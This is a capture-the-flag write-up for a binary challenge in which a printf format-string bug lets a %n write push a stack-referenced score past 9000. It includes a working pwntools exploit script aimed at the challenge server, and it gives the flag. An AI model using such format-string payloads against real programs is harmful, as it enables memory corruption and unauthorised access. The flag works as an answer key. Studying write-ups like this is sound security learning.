


Analyzing the main, we see that it takes as input a string of 280 characters and saves them in "s". 
An unsigned integer is then allocated and his pointes is saved in "v3", which is on the stack. 
After that, a printf with format string vulnerability occurs. Then the `calculateScore ()` function is invoked, which calculates the score and saves it in "*v3".
If "*v3" is greater than 9000 we get the flag.
Let's see what `calculateScore` does:



As we can see, for each occurrence that finds in our input it adds a score.
Unfortunately, our input is limited. We must therefore use the format string to write a number> 9000 in the integer pointed to by "v3". 
The position of "v3" on the stack is 7th.

Exploit:
```python
from pwn import *

p = remote('pwn.ctf.b01lers.com', 1004)

payload = (("%lx"*5).encode())
payload += (("%39321x").encode())
payload += ("%n".encode())

print(p.recvuntil(': ').decode())
p.sendline(payload)
p.interactive()
```

# FLAG
```
pctf{Wh4t's_4ft3r_MAARRRZ?}
```
